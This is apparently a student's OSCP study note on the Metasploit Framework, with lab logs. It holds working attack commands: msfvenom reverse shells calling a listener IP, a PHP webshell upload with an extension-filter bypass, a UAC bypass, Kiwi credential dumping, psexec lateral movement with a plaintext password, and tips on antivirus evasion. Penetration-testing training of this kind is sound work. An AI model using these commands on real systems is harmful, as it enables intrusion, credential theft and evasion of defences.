




# The Metasploit Framework

## Tags
#Module21 #Metasploit #MSF #Meterpreter #msfvenom #AuxiliaryModules #ExploitModules #PostExploitation #StagedPayloads #StagelessPayloads #Kiwi #Pivoting #ResourceScripts #ExploitFrameworks #ApacheNiFi #PtH #LateralMovement #CredentialReuse #autoroute #socks_proxy #db_nmap #hashdump #getsystem #migrate #multiHandler

Module 21. Exploit framework that consolidates exploitation, payload delivery, post-exploitation, and session management into one consistent interface. Open-source, maintained by Rapid7, updated frequently. The goal isn't to memorise every module, it's to understand the mental model so you can find and run the right thing quickly.

Cross-links: [[19. Port Redirection and SSH Tunneling|Port Redirection and SSH Tunneling]] (autoroute + socks_proxy detail), [[16. Password Attacks|Password Attacks]] (secretsdump, PtH), [[17. Windows Privilege Escalation|Windows PrivEsc]] (UAC bypass context). HTB supplementary content (db_nmap, search filters, session chaining, hashdump, named exploits) merged into this note.

---

## Why This Module Matters

Metasploit is the glue layer of a pentest. Every technique taught in prior modules -- port scanning, web exploitation, payload delivery, credential dumping, pivoting -- has an MSF module or workflow equivalent. The framework isn't a replacement for understanding the technique; it's a force multiplier once you do.

> 🎓 **OSCP context:** MSF can only be used with restrictions on the exam (one box, one Metasploit attempt). The value here is building fluency -- knowing module search patterns, SESSION chaining, and the autoroute/socks_proxy pivot pattern so you can use that one attempt effectively without fumbling.

> 🔑 **Key mental model:** MSF modules follow the type/os/protocol/name hierarchy. When you know CVE or service, `search CVE-XXXX-YYYY` or `search type:exploit platform:linux sudo` will find it faster than scrolling. `info` before `run` -- always check side effects, reliability, and whether `check` is supported.

---

## Outstanding Sections

- [x] 21.1.1 Setup and Work with MSF (msfdb, workspaces, db_nmap, search filter syntax, setg)
- [x] 21.1.2 Auxiliary Modules (smb_version, ssh_login brute force)
- [x] 21.1.3 Exploit Modules (apache_normalize_path_rce, sessions/jobs, run -j)
- [x] 21.2.1 Staged vs Non-Staged Payloads (slash vs underscore, mermaid)
- [x] 21.2.2 Meterpreter Payload (core commands, file system, HTTPS variant)
- [x] 21.2.3 Executable Payloads (msfvenom flags, multi/handler, staged vs non-staged receiver)
- [x] 21.3.1 Core Meterpreter Post-Exploitation Features (getsystem, ps/migrate, execute -H)
- [x] 21.3.2 Post-Exploitation Modules (UAC bypass, Kiwi, hashdump post module, SESSION chaining + LPORT conflict, enum_hosts)
- [x] 21.3.3 Pivoting with Metasploit (route add, autoroute, socks_proxy, portfwd, bind_tcp requirement)
- [x] 21.4.1 Resource Scripts (AutoRunScript, ExitOnSession, msfconsole -r, capstone Apache NiFi chain)
- [x] 21.5 HTB Named Exploits Reference (apache_druid, elfinder, baron_samedit, fortilogger, HTB Q&A)

---

## 21.1 Getting Familiar with Metasploit

### 21.1.1 Setup and Work with MSF

MSF uses PostgreSQL as a backend database, which is neither running nor enabled by default on Kali. Initialize it once with `msfdb init`, then optionally enable it at boot.

```bash
sudo msfdb init                    # creates DB, MSF user, config file, initial schema
sudo systemctl enable postgresql   # boot-persist (optional, nice for lab VMs)
sudo msfconsole                    # launch MSF
sudo msfconsole -q                 # quiet, suppresses banner/version splash
```

Once inside, confirm DB is connected:
```
msf6 > db_status
[*] Connected to msf. Connection type: postgresql.
```

**Workspaces** keep different assessments' data separated in the same DB. Create one at the start of every engagement so results don't bleed across targets.

```
msf6 > workspace               # list all (asterisk = current)
msf6 > workspace -a pen200     # create + switch to pen200
msf6 > workspace pen200        # switch to existing
```

**Module categories** (shown on splash screen or via `show -h`):



Modules follow a common slash-delimited hierarchy: `type/os_or_vendor/protocol_or_app/module_name`.

**Database Backend Commands:**
```
db_nmap [nmap opts]              # Nmap scan with results stored in DB automatically
hosts                            # list all discovered hosts
services [-p PORT]               # list discovered services; filter by port with -p
services -p 445 --rhosts         # set RHOSTS to all hosts with port 445 open
vulns                            # vulnerabilities identified by module runs
creds                            # stored credentials (user/pass/hash)
loot                             # dumped files, hashes, keys
notes                            # miscellaneous notes
```

**Core module workflow:**
```
search type:auxiliary smb        # find module by type + keyword
use 56                           # activate by index (from search) or full name
info                             # description, side effects, stability, reliability
show options                     # required vs optional, current values
show missing                     # only the unset required options
show advanced                    # hidden options like AutoRunScript, ExitOnSession
set RHOSTS 192.168.50.202
services -p 445 --rhosts         # set RHOSTS from DB results automatically
run                              # execute
```

**Search filter syntax** -- `filter:value` keywords narrow results significantly:

| Filter | Example | Effect |
|---|---|---|
| `cve:` | `search cve:2021` | CVE disclosure year |
| `name:` | `search name:sudo` | Module name contains string |
| `platform:` | `search platform:windows` | Target OS |
| `type:` | `search type:exploit` | Module type (exploit/auxiliary/post) |
| `rank:` | `search rank:excellent` | Module reliability rank |

```bash
search eternalromance                       # keyword only
search CVE-2021-3156                        # exact CVE lookup
search sudo baron samedit                   # multi-word keywords
search sudo cve:2021                        # sudo modules from CVE year 2021
search type:exploit platform:linux sudo     # fully filtered
```

**setg vs set:**
```bash
set LHOST tun0    # sets LHOST for the current module only
setg LHOST tun0   # persists across module switches — use when LHOST won't change
unsetg LHOST      # clear a global (plain 'show options' hides globals; use 'show global')
```

> 💡 **`sudo msfdb run`** -- alternative to `msfdb init` + `msfconsole` separately. Starts PostgreSQL if needed and launches msfconsole in one step. If the DB disconnects mid-session, exit and re-run `sudo msfdb run` -- you can't reconnect without restarting.

> 📸 Screenshot: `msfconsole` splash showing module counts; `db_status` confirming postgresql connection

> 📸 Screenshot: `workspace -a pen200` creation; `db_nmap` scan output; `services` showing stored results

**Labs:**

Q1: What command creates and initializes the MSF database?
**Answer: `sudo msfdb init`**

Q2: What is the command to display all services from discovered hosts with port 445?
**Answer: `services -p 445`**

> 🚩 Hands-on, VM spin-up required: 21.1.1 VM#1, run `db_nmap -A <target>` in Metasploit, confirm `services -p 445` output ⬜ Pending
> **Note:** MSF PostgreSQL DB on this Kali install requires `sudo systemctl start postgresql` then `sudo msfdb reinit` before first use. DB is optional for most module functionality.

---

### 21.1.2 Auxiliary Modules

Hundreds of auxiliary modules covering scanners, brute-force, fuzzing, sniffing, enumeration, and more. Two common patterns:

**SMB version detection (feeds the vulns DB):**
```bash
search type:auxiliary smb
use auxiliary/scanner/smb/smb_version   # or the index number
services -p 445 --rhosts                # set RHOSTS from DB automatically
run
# Output: SMB version + preferred dialect + signing status
# If signing is not required: Metasploit auto-creates a vuln DB entry
vulns   # shows the SMB Signing Is Not Required finding
```

**SSH brute force (auto-opens a session on success):**
```bash
use auxiliary/scanner/ssh/ssh_login
set PASS_FILE /usr/share/wordlists/rockyou.txt
set USERNAME george
set RHOSTS 192.168.50.201
set RPORT 2222
set VERBOSE false   # suppress failed attempts noise
run
# On success: "SSH session 1 opened" + cred stored in DB automatically
creds   # shows george:chocolate with host + service + type
```

> 🔍 Worth remembering generally: `ssh_login` doesn't just find the password, it opens a session automatically. You don't need a separate SSH command. Background it and use `sessions -i ID` to interact later.

> 📸 Screenshot: `run` output showing `[+] Success: 'george:chocolate'` and session opening; `creds` showing stored result

> ✅ 21.1.2 VM Group 1, `ssh_login` brute-forced `george:chocolate` on BRUTE (192.168.249.201, port 2222); `sessions -i 1` → `cat ~/flag.txt` → `OS{5bcfcac837f98e3bb438a2e877d15255}`

---

### 21.1.3 Exploit Modules

Over 2200 exploit modules. Each has metadata you should read before running.

**Key `info` fields to check:**
- **Module side effects**: `ioc-in-logs` (log entries), `artifacts-on-disk` (files left behind)
- **Module stability**: `crash-safe` vs potential target crash
- **Module reliability**: `repeatable-session` (can re-run) vs one-shot
- **Available targets**: `Automatic` works in most cases; pick a specific target when it doesn't
- **Check supported**: if Yes, run `check` first for a dry-run without exploiting

**Example: Apache 2.4.49 path traversal RCE (CVE-2021-41773/42013)**
```bash
workspace -a exploits
search Apache 2.4.49
use exploit/multi/http/apache_normalize_path_rce
info              # check: ioc-in-logs, artifacts-on-disk, repeatable-session, check: Yes

set payload linux/x64/shell_reverse_tcp
show options      # now shows both module options AND payload options (LHOST, LPORT)
set LHOST 192.168.119.2
set LPORT 443     # avoid 4444 in real tests, commonly firewall-blocked
set SSL false
set RPORT 80
set RHOSTS 192.168.50.16
run
# MSF starts listener automatically, no separate `nc -nvlp` needed
# Output: "Command shell session 2 opened"
```

**Sessions and jobs:**
```
C+z                    # background current session (prompts confirmation)
background / bg        # background from inside Meterpreter
sessions -l            # list all active sessions
sessions -i 2          # interact with session 2
sessions -k 2          # kill session 2
run -j                 # launch module as background job (listener stays alive)
jobs                   # list active background jobs
```

> 🔧 Technique: Always read `info` before running an exploit. `artifacts-on-disk` means you'll leave files; `crash-safe: No` means you might brick the service. Know before you run.

> 🔍 Worth remembering generally: `run -j` is the preferred way to start listeners in real engagements. The terminal stays free, and session pop-ins appear as notifications while you work on other things.

> 📸 Screenshot: `info` output showing side effects + reliability; `run` output showing session opening; `sessions -l` listing active session

> ✅ 21.1.3 VM#1, `apache_normalize_path_rce` (CVE-2021-42013) on 192.168.249.16 with `linux/x64/shell_reverse_tcp`; session opened; `pwd` = `/usr/bin`

---

## 21.2 Using Metasploit Payloads

### 21.2.1 Staged vs Non-Staged Payloads

The naming convention is the tell. A forward slash in the payload name means staged; an underscore before the action qualifier means non-staged (inline):

| Type | Name format | Example | Stage 1 size | How it works |
|------|-------------|---------|-------------|--------------|
| Non-staged | `action_qualifier` | `shell_reverse_tcp` | N/A (all-in-one) | Full shellcode delivered in one shot |
| Staged | `action/qualifier` | `shell/reverse_tcp` | ~38 bytes | Stage 1 calls home, MSF sends full stage 2 |

**When staged is better:**
- Tight buffer in a BOF exploit (stage 1 is tiny)
- AV evasion: stage 1 is minimal and benign-looking; the real shellcode arrives in memory, not on disk
- Meterpreter is always staged (all its variants)

**When non-staged is better:**
- Simpler receiver: Netcat handles non-staged, but it cannot send stage 2 for staged payloads
- More stable in unreliable networks (no second handshake required)

```bash
show payloads   # list compatible payloads for current module
# index 15: payload/linux/x64/shell/reverse_tcp   ← staged (slash before reverse_tcp)
# index 20: payload/linux/x64/shell_reverse_tcp   ← non-staged (underscore)
set payload 15
run
# Output: "Sending stage (38 bytes) to 192.168.50.16"
```



> 🔍 Worth remembering generally: "/" = staged, "_before_action" = non-staged. `shell/reverse_tcp` vs `shell_reverse_tcp`. This pattern applies everywhere in MSF and msfvenom.

**Labs:**

Q1: Which character denotes a staged payload in Metasploit?
**Answer: `/`**

Q2: Find the 32-bit staged reverse TCP command shell for Linux in the apache_normalize_path_rce payload list.

> ✅ 21.2.1 Q2, `show payloads` on apache_normalize_path_rce confirmed: **`payload/linux/x86/shell/reverse_tcp`** (index 48, 32-bit staged reverse TCP shell for Linux)

---

### 21.2.2 Meterpreter Payload

Metasploit's signature payload. Key properties:
- Runs entirely in memory on the target (no files written to disk by default)
- All communications are encrypted (SSL/TLS) by default
- Dynamically extensible: load extensions at runtime with `load`
- Exists for Windows, Linux, macOS, Android, PHP, Python, and more

For most use, pick the non-staged (inline) variant to avoid the second-stage network traffic:
```bash
# Non-staged (inline, _): linux/x64/meterpreter_reverse_tcp
# Staged (/):             linux/x64/meterpreter/reverse_tcp
set payload linux/x64/meterpreter_reverse_tcp
```

**Core Meterpreter commands:**
```
sysinfo            # OS, arch, computer name, Meterpreter type
getuid             # current user context
getpid             # process ID of the Meterpreter payload
ps                 # full process list (PID, user, path)
shell              # drop into OS shell (creates a numbered channel)
channel -l         # list active channels
channel -i 1       # interact with channel 1
C+z                # background current channel (returns to Meterpreter prompt)
bg                 # background the Meterpreter session (returns to msfconsole)
```

**File system commands (l-prefix = local Kali operations):**
```
pwd / lpwd                              # remote / local working directory
ls / lls                                # remote / local file listing
cd / lcd                                # change remote / local directory
download /etc/passwd                    # download to current local dir
upload /usr/bin/unix-privesc-check /tmp/  # upload file to target
lcat /home/kali/Downloads/passwd        # read a local file to screen
search -f passwords*                    # search remote FS by filename pattern
```

**HTTPS variant (better defensive evasion):**
```bash
set payload linux/x64/meterpreter_reverse_https
# Traffic looks like HTTPS to defenders
# Visiting the listener address in a browser returns a 404 (normal-looking)
# LURI option: set a specific URL path if running multiple handlers on one port
```

> 🔍 Worth remembering generally: In real tests, get initial access with a raw TCP shell first (lower detection risk). Upgrade to Meterpreter only after disabling or bypassing AV. Meterpreter signatures are well-known.

> 📸 Screenshot: Meterpreter `>` prompt with `sysinfo` output showing OS/arch/Meterpreter type

> 📸 Screenshot: `channel -l` showing two active shell channels; `channel -i 1` returning to first channel

> ✅ 21.2.2 VM#1, `meterpreter_reverse_https` on 192.168.249.16; `search -f passwords` found `/opt/passwords`; `cat /opt/passwords` → `OS{4b42685f18cb983a80cf8546b51d7177}`

---

### 21.2.3 Executable Payloads

`msfvenom` generates standalone payload files. Replaces the old msfpayload + msfencode tools.

```bash
# List all payloads (filterable):
msfvenom -l payloads
msfvenom -l payloads --platform windows --arch x64

# Non-staged Windows x64 reverse shell EXE:
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.119.2 LPORT=443 -f exe -o nonstaged.exe

# Staged Windows x64 reverse shell EXE:
msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.119.2 LPORT=443 -f exe -o staged.exe

# Windows x64 Meterpreter (staged) EXE:
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.119.4 LPORT=443 -f exe -o met.exe

# PHP reverse shell (raw output):
msfvenom -p php/reverse_php LHOST=192.168.119.2 LPORT=443 -f raw -o shell.php
# Rename to .pHP to bypass Content-Type/extension filters (per Common Web App Attacks module)
```

| Flag | Purpose |
|------|---------|
| `-p` | Payload name |
| `LHOST=` | Listener IP address |
| `LPORT=` | Listener port |
| `-f` | Output format: `exe`, `elf`, `raw`, `war`, `ps1`, etc. |
| `-o` | Output file path |
| `-l payloads` | List available payloads |
| `--platform` | Filter by platform |
| `--arch` | Filter by architecture |

**Receiving the connection:**
- Non-staged payload: `nc -nvlp PORT` works fine (all shellcode arrived at once)
- Staged payload: must use `multi/handler` in MSF. Netcat can't send stage 2.

```bash
# multi/handler for staged Windows shell:
use multi/handler
set payload windows/x64/shell/reverse_tcp
set LHOST 192.168.119.2
set LPORT 443
run -j   # run as background job, terminal stays free
# Once target executes the EXE: "Sending stage (336 bytes) to 192.168.50.202"
# Session opens automatically
```

> 🔧 Technique: `run -j` + `run -z -j` are your friends. `-j` = background job, `-z` = don't auto-interact with the session. Use `jobs` to check listeners and `sessions -l` to see what's connected.

> 📸 Screenshot: `msfvenom` generating met.exe; `multi/handler` listener output; staged session opening with "Sending stage (336 bytes)"

> 🔁 Similar to: [[09. Common Web Application Attacks#File Upload|Common Web Application Attacks#File Upload]], the PHP webshell chain in 21.2.3 VM#2 is the same technique covered in that module: upload bypass (.pHP extension) + form field discovery via gobuster + curl trigger.

External resources:
- [PayloadsAllTheThings. MSF Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Metasploit%20-%20Cheatsheet.md)
- [HackTricks. MSF/msfvenom payload generation](https://github.com/HackTricks-wiki/hacktricks/blob/master/generic-methodologies-and-resources/reverse-shells/msfvenom.md)

**Labs:**

Q1: Command to list all payloads of msfvenom?
**Answer: `msfvenom -l payloads`**

> 🚩 Hands-on, VM spin-up required: 21.2.3 VM#1, generate a staged Windows EXE with msfvenom, set up multi/handler, execute on BRUTE2 (RDP as justin), confirm session ⬜ Pending

> ✅ 21.2.3 VM#2, gobuster on 192.168.249.189 (`/usr/share/wfuzz/wordlist/general/megabeast.txt`) found `/meteor/` → `/meteor/upload.php` (field: `fileToUpload`); `msfvenom -p php/reverse_php LHOST=... LPORT=4444 -f raw -o shell.pHP`; `curl -F "fileToUpload=@shell.pHP"`; triggered via `/meteor/uploads/shell.pHP`; `nc -nvlp 4444` caught `nt authority\system`; `type C:\xampp\passwords.txt` → `OS{8eda7505647594f1fef9b66ed8974b06}`

---

## 21.3 Performing Post-Exploitation with Metasploit

### 21.3.1 Core Meterpreter Post-Exploitation Features

Built-in commands available in any Meterpreter session. Windows Meterpreter has more features than Linux. The lab target here is ITWK01 (Windows), accessed via a bind shell on port 4444 then met.exe dropped via PowerShell.

**Situational awareness:**
```
idletime     # seconds/minutes since user last interacted
             # if high: safer to run noisy or window-spawning commands
sysinfo      # OS, arch, computer name
getuid       # current user
ps           # full process list: PID, PPID, name, arch, session, user, path
```

**Privilege escalation:**
```
getsystem    # attempts auto-escalation to NT AUTHORITY\SYSTEM
             # tries multiple techniques:
             # - Named Pipe Impersonation (PrintSpooler variant)
             # - Token duplication
             # - SeImpersonatePrivilege / SeDebugPrivilege required
getuid       # confirm SYSTEM after running
```

**Process migration (evasion + stability):**

Move the Meterpreter payload into a different process to hide it in the process list and avoid dying when the original process exits.

```
ps                      # find a suitable target process
migrate 8052            # migrate into that PID
                        # original process (met.exe) disappears from process list
                        # you now run in the context of that process's user

execute -H -f notepad   # spawn a hidden background process to migrate into
migrate <new PID>
```

> 🔧 Technique: You can only migrate to a process at the same or lower privilege level. If you're SYSTEM and migrate into a medium-integrity user process, you lose SYSTEM. To stay SYSTEM, migrate into a SYSTEM process like `spoolsv.exe` or `svchost.exe`.

> 🔍 Worth remembering generally: Always migrate as early as possible, especially when the initial payload process has a suspicious name like `met.exe`. A hidden Notepad process (`execute -H -f notepad`) blends in perfectly.

> 📸 Screenshot: `ps` output showing met.exe alongside legitimate processes; `migrate` output showing success; `getuid` confirming new user context

> ✅ 21.3.1 VM#1. ITWK01 (192.168.249.223) bind shell port 4444 → PowerShell `iwr` to download met.exe → Meterpreter session → `getsystem` (Named Pipe Impersonation PrintSpooler) → `ps` found OneDrive.exe PID 6012 (ITWK01\offsec) → `migrate 6012` → `getenv Flag` → **`thisistheanswertothequestion`**

---

### 21.3.2 Post-Exploitation Modules

Separate MSF modules under `post/` that take an active session as their `SESSION` option and operate on it. Background your Meterpreter session first, then use these.

**UAC bypass (bypassuac_sdclt):**
```bash
bg   # background the current Meterpreter session
search UAC

use exploit/windows/local/bypassuac_sdclt
# targets sdclt.exe to spawn a new High-integrity process
set SESSION 9         # the session to run against
set LHOST 192.168.119.4
run
# Result: a NEW Meterpreter session opens at High integrity level
# Confirm with: Import-Module NtObjectManager; Get-NtTokenIntegrityLevel
```

**Kiwi (Mimikatz inside Meterpreter):**
```bash
# Requires SYSTEM privileges — run getsystem first
load kiwi          # loads Mimikatz as a Meterpreter extension

creds_msv          # dump LM + NTLM hashes from LSASS
creds_all          # dump all credential types at once
lsa_dump_sam       # dump SAM hive (like offline reg.exe save + secretsdump)
lsa_dump_secrets   # dump LSA secrets
dcsync_ntlm        # DCSync for a specific user's NTLM hash
kiwi_cmd <cmd>     # raw Mimikatz command passthrough
```

> 🔍 Worth remembering generally: `load kiwi` + `creds_msv` is the quickest path to NTLM hashes when you have SYSTEM. Saves the whole reg.exe save + smbserver + secretsdump pipeline.

External resource: [HackTricks. Mimikatz / Kiwi inside Meterpreter](https://github.com/HackTricks-wiki/hacktricks/blob/master/windows-hardening/stealing-credentials/credentials-mimikatz.md)

**Post module: `hashdump` (SAM-based hash dump without Kiwi):**
```bash
background
search hashdump post windows

use post/windows/gather/hashdump
set SESSION 1
run
# Output: Username:RID:LM_hash:NT_hash:::
# LM field aad3b435... = empty LM (disabled, useless for cracking)
# NT hash (4th field) = crack with hashcat -m 1000 or use for PtH

# Domain controller / domain-wide hashes:
use post/windows/gather/smart_hashdump
set SESSION 1
run
```

> ⚠️ **Requires SYSTEM privileges.** If running as local admin but not SYSTEM, run `getsystem` first inside Meterpreter before backgrounding.

> 🔁 Similar to: `impacket-secretsdump -sam SAM -security SECURITY -system SYSTEM LOCAL` from [[16. Password Attacks|Password Attacks]] -- use whichever is more convenient given whether you're already in Meterpreter.

**Local exploit SESSION chaining (e.g., foothold → privilege escalation):**

When a `post/` or `local/` module takes a `SESSION` option instead of `RHOSTS`, it runs through an existing session rather than opening a new network connection.

```bash
# Step 1: Get initial foothold (e.g., web RCE)
use exploit/linux/http/elfinder_archive_cmd_injection
set LHOST tun0
set RHOSTS TARGET_IP
exploit
# → meterpreter session 1

# Step 2: Check for local privesc opportunity
shell
sudo -V   # e.g., Sudo version 1.8.31 → vulnerable to Baron Samedit
exit      # back to meterpreter

# Step 3: Background and chain local exploit
background
search sudo cve:2021   # → sudo_baron_samedit

use exploit/linux/local/sudo_baron_samedit
set SESSION 1           # run through the existing session
set LHOST tun0
set LPORT 9001          # MUST differ from original session's handler port (e.g., 4444)
run
# → meterpreter session 2 (as root)
```

> ⚠️ **LPORT conflict:** if the first handler is on 4444, the second exploit's handler on 4444 fails to bind. Always change `set LPORT` for subsequent modules. The original session on 4444 is unaffected.

> 💡 **Architecture mismatch warning** (`incompatible session architecture: x86`) usually doesn't prevent the exploit from running -- let it proceed before concluding the mismatch is fatal.

**Enumerating the Hosts file:**
```bash
search post windows hosts
use post/windows/gather/enum_hosts
set SESSION <ID>
run
# Outputs domain names mapped in C:\Windows\System32\drivers\etc\hosts
```

> 📸 Screenshot: `creds_msv` output showing Username, Domain, NTLM hash, SHA1 for local accounts

> ✅ 21.3.2 VM#1 Q1, bind shell → met.exe → `getsystem` → `load kiwi` → `creds_msv`; offsec NTLM: **`1c3fb240ae45a2dc5951a043cf47040e`**

> ✅ 21.3.2 VM#1 Q2, `search hostfile` → `post/windows/gather/enum_hostfile`; `set SESSION 1` → `run`; entry: `10.10.10.10  secretstaging-internal.com`; domain: **`secretstaging-internal.com`**

---

### 21.3.3 Pivoting with Metasploit

Routes in MSF tell the framework to send traffic for a given subnet through an existing session. This is the same concept as autoroute + socks_proxy from the HTB Pivoting supplementary, but driven directly from a Meterpreter session.

**Lab network topology:**



**Manual routing:**
```bash
bg
route add 172.16.5.0/24 12   # route the /24 through session 12
route print                   # verify routing table
route flush                   # remove all routes
```

**Autoroute (reads pivot's own routing table):**
```bash
use multi/manage/autoroute
set SESSION 12
run
# Finds all subnets the pivot knows about and adds them automatically
route print   # confirm routes were added
```

**Port scan through the route:**
```bash
use auxiliary/scanner/portscan/tcp
set RHOSTS 172.16.5.200
set PORTS 445,3389
run   # packets travel: Kali → MSF route → session 12 → ITWK01 → ITWK02
```

**Exploiting through the route (bind_tcp required):**
```bash
# Routes only support connections initiated FROM Kali TO the target.
# The target has no route back to Kali, so reverse_tcp payloads FAIL.
# Use bind_tcp: Kali connects to the target's open port (works via route).

use exploit/windows/smb/psexec
set SMBUser luiza
set SMBPass "BoccieDearAeroMeow1!"
set RHOSTS 172.16.5.200
set payload windows/x64/meterpreter/bind_tcp
set LPORT 8000
run
# Session opens: "192.168.119.x:443 -> 172.16.5.200:8000 via session 12"
```

> 🔧 Technique: Reverse shell payloads won't work through MSF routes because the internal target can't route back to Kali. Always use `bind_tcp` for the second hop so Kali initiates the connection via the established route.

**SOCKS proxy + proxychains (for non-MSF tools):**
```bash
use auxiliary/server/socks_proxy
set SRVHOST 127.0.0.1
set VERSION 5
run -j   # background job

# /etc/proxychains4.conf:
# [ProxyList]
# socks5 127.0.0.1 1080

sudo proxychains xfreerdp /v:172.16.5.200 /u:luiza
```

**Meterpreter portfwd (single-port, no proxychains needed):**
```bash
# Inside a Meterpreter session on the pivot host:
portfwd add -l 3389 -p 3389 -r 172.16.5.200
# Kali's 127.0.0.1:3389 now maps to 172.16.5.200:3389

xfreerdp /v:127.0.0.1 /u:luiza   # connect directly, no proxychains
```

| Method | Best for | Proxychains? |
|--------|----------|-------------|
| `route add` + MSF modules | Running MSF modules against internal hosts | No |
| `autoroute` + `socks_proxy` | Non-MSF tools (xfreerdp, nmap, etc.) | Yes |
| `portfwd` | Single service, quick access | No |

> 📸 Screenshot: `route print` showing active route through session 12; autoroute module run output; proxychains xfreerdp RDP window on internal host

> ✅ 21.3.3 VM Group 1. ITWK01 (192.168.249.223) bind shell → met.exe → Meterpreter session 1 → `autoroute` added 172.16.249.0/24 → port scan confirmed ITWK02 (172.16.249.200) ports 445+3389 open → `psexec` as luiza:BoccieDearAeroMeow1! with `windows/x64/meterpreter/bind_tcp` LPORT=8000 → session 2 via session 1 → `cat C:\\Users\\luiza\\Desktop\\flag.txt` → `OS{9ebb0b404e4afd0431c9968644a7de45}`

---

## 21.4 Automating Metasploit

### 21.4.1 Resource Scripts

Resource scripts chain MSF console commands (and optionally Ruby code) into a `.rc` file. Great for repeatable setup tasks: multi/handler listeners, common post-exploitation sequences, standard pivoting configurations.

**Example: auto-migrating multi/handler listener**
```bash
# listener.rc
use exploit/multi/handler
set PAYLOAD windows/meterpreter_reverse_https
set LHOST 192.168.119.4
set LPORT 443
set AutoRunScript post/windows/manage/migrate   # auto-migrate on session open
set ExitOnSession false   # keep listening after the first connection
run -z -j                 # -z: don't auto-interact; -j: run as background job
```

**Running a resource script:**
```bash
sudo msfconsole -r listener.rc      # start MSF and execute script immediately
# OR from inside a running msfconsole:
resource /path/to/listener.rc
```

When the script runs, every line is echoed with `resource (listener.rc)>` prefix. After `run -z -j` fires, the session pops in automatically and the payload migrates to a newly spawned Notepad process (per AutoRunScript).

**Useful advanced options:**
```
show advanced         # inside a module: reveals AutoRunScript, ExitOnSession, etc.
AutoRunScript         # post module to run automatically when a session opens
ExitOnSession         # false = keep the handler listening after first hit
setg / unsetg         # set / unset options globally across all modules
```

**Pre-built resource scripts (examine before using):**
```bash
ls /usr/share/metasploit-framework/scripts/resource/
# auto_brute.rc, portscan.rc, smb_checks.rc, run_all_post.rc, etc.
# These use setg for globals; always read them before running
```

> 📸 Screenshot: msfconsole starting with `-r listener.rc`, commands echoed line by line; incoming Meterpreter session + AutoRunScript migration output

**Labs:**

Q1: What is the `msfconsole` command-line option to specify a resource script?
**Answer: `-r`**

Q2: What is the number of the first port scanned by portscan.rc?

✅ **21.4.1 Q2**. Answer: **7**. The `ports` variable at the top of portscan.rc starts with: `"7,21,22,23,25,43,50,53,..."`, port 7 (Echo protocol) is first.

> 🚩 Hands-on, VM spin-up required: 21.4.1 VM#1, use `listener.rc` resource script to set up multi/handler, get Meterpreter session from VM#1 ⬜ Pending

✅ **21.4.1 Capstone VM Group 1**. Flag: `OS{05cf9f9964751cf5fd9d380efc330fb7}`

